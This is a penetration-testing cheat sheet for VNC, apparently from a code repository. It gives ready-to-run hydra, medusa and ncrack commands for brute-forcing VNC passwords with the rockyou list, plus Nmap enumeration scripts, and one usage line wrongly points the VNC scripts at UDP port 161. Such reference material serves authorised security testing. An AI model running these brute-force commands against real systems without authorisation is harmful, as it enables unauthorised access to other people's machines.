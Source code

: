 ### **INTRODUCTION**

VNC (Virtual Network Computing) is a desktop sharing system that uses the RFB (Remote Frame Buffer) protocol to control another computer remotely. It transmits keyboard and mouse inputs and updates the graphical screen between computers over a network. VNC is platform-independent, supporting various operating systems, and is commonly used for technical support and remote file access.

### **CONNECTING USING VNC VIEWER**

| Command | Description |
| --- | --- |
| `vncviewer -passwd passwd.txt [TARGET-IP]::[PORT]` | Connects to a VNC server using an IP and port with password authentication from a specified file. |

### **BRUTE-FORCING VNC CREDENTIALS**

| Command | Description |
| --- | --- |
| `hydra -s 5900 -P /usr/share/wordlists/rockyou.txt -t 4 [TARGET-IP] vnc -V` | This command Uses Hydra to crack VNC server passwords on port 5900 using the "rockyou.txt" password list, with detailed output. |
| `hydra -s 5900 -L [PATH_TO_USERLIST] -P /usr/share/wordlists/rockyou.txt -t 4 [TAGER-IP] vnc -V` | This command uses Hydra to perform a brute force attack on a VNC server, using a list of usernames and passwords on port 5900, with detailed output enabled. |
| `medusa -h [TARGET-IP] -u [USERNAME] -P /usr/share/wordlists/rockyou.txt -M vnc -T 4 -v 4` | This command uses Medusa to test VNC server logins at a specific IP address, using one username, multiple passwords, |
| `ncrack -vv --user [USERNAME] -P /usr/share/wordlists/rockyou.txt vnc://[TARGET-IP]:5900` | This command runs Ncrack to attempt a password crack on a VNC server using a specified username and password list, with high detail in the output. |

### **NMAP**

| Command | Description |
| --- | --- |
| `ls -la /usr/share/nmap/scripts \| grep "vnc"` | Displays a list of Nmap NSE scripts that are specifically designed for auditing VNC services. This is a quick way to select scripts appropriate for targeted security checks. |
| `nmap -p 5900 --script vnc* [TARGET-IP]` | This Nmap command scans port 5900 for VNC vulnerabilities and config details at the given IP address. |

#### **POPULAR NSE SCRIPTS FOR VNC**

Nmap Scripting Engine offers several scripts targeted at assessing VNC services. These scripts can help uncover potential security weaknesses:

| Script Name | Description |
| --- | --- |
| `vnc-info.nse` | Gathers extensive information about the VNC service, including the protocol version and security settings, to help in understanding how the server is configured. |
| `vnc-brute.nse` | Attempts to brute-force the password of a VNC server, providing insights into the robustness of the existing password policy. |
| *Usage* | `nmap [TARGET-IP] -Pn -sU -p 161 --script=[SCRIPT-NAME]` |
